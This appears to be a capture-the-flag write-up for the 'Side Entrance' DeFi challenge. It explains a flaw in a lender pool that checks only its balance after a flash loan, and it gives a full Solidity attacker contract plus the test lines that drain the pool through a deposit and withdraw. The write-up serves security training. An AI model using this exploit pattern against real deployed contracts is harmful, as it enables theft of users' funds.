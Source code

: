 # Side Entrance

**HINT:** Take a deeper look at how the accounting system works in the lender pool.

<details>
<summary>Part 1</summary>
<p>

The lender pool forgets to use its accounting system and only checks to see if the token balance has lowered. This contract essentially takes a flash loan and redeposits the funds leaving us with the same balance. All checks, according to the lender pool, are then passed leaving us the ability to then call the ```withdraw()``` function.
```
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/math/SafeMath.sol";

interface ISideEntranceLenderPool {
    function deposit() external payable;

    function withdraw() external;

    function flashLoan(uint256 amount) external;
}

contract SideEntranceAttacker {
    using SafeMath for uint256;

    ISideEntranceLenderPool _pool;
    uint256 _poolBalance;
    address payable _attackerEOA;

    constructor() public {}

    function attack(ISideEntranceLenderPool pool, address payable attackerEOA) public {
        _pool = pool;
        _attackerEOA = attackerEOA;
        _poolBalance = address(_pool).balance;

        _pool.flashLoan(_poolBalance);

        _pool.withdraw();
        _attackerEOA.transfer(_poolBalance);
    }
    
    function execute() external payable {
        _pool.deposit{value: _poolBalance}();
    }

    receive() external payable {}
}
```

</p>
</details>

<details>
<summary>Part 2</summary>
<p>

Now go to ```side-entrance.challenge.js``` and at the top of the file add:
```js
const SideEntranceAttacker = contract.fromArtifact("SideEntranceAttacker");
```
And at ```Exploit``` add:
```js
this.attacker = await SideEntranceAttacker.new({ from: attacker });
await this.attacker.attack(this.pool.address, attacker);
```

```sh
npm run side-entrance.challenge.js
```

</p>
</details>